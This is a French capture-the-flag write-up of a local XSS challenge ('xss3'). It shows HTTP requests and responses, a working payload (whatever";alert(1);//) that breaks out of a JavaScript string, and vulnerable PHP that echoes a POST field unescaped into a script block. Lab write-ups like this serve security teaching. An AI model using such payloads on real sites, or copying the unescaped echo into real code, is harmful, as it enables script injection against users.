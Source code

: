 # xss3

## Exploitation

A nouveau une fonctionnalité de recherche pour ce troisième challenge, mais le mot renseigné doit être un nom d'utilisateur :&#x20;

![](<../../../.gitbook/assets/image (166).png>)

Lorsque je renseigne un nom d'utilisateur, il n'est ni réfléchi dans un message d'erreur, ni en tant que valeur du champ :&#x20;

```http
POST /xss3/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss3/

name=whatever&submit=Envoyer
```

Je recherche alors le nom directement dans la réponse HTTP :&#x20;

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 1908
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html>
  <head>
    <title>XSS 3</title>
    <link rel="stylesheet" href="../static/css/bootstrap.min.css" />
  </head>
  <body>
    ...
    <script>
      var name="whatever";
    </script>
  </body>
</html>
```

Le nom d'utilisateur renseigné est donc présent en tant que valeur d'une variable Javascript. Je tente assez simplement de sortir de la valeur avec le `"` puis d'exécuter l'affichage de la modale. Le commentaire, à la fin de ma payload, va permettre de se débarrasser des caractères superflus provenant de la concaténation effectuée dans le code `whatever";alert(1);//` :

```http
POST /xss3/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss3/

name=whatever%22%3Balert%281%29%3B%2F%2F&submit=Envoyer
```

![](<../../../.gitbook/assets/image (184).png>)

## Analyse du code source

Le nom d'utilisateur renseigné est récupéré dans la variable `$username`. Cette variable est affichée grâce à la directive `echo` directement au sein d'un bloc Javascript en tant que valeur de la variable `name` :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['name'])) {
    $username = $_POST['name'];
  }
?>

<script>
    <?php if (isset ($username) && !empty ($username)): echo ("var name=\"$username\";");?>
    <?php endif; ?>
</script>
```
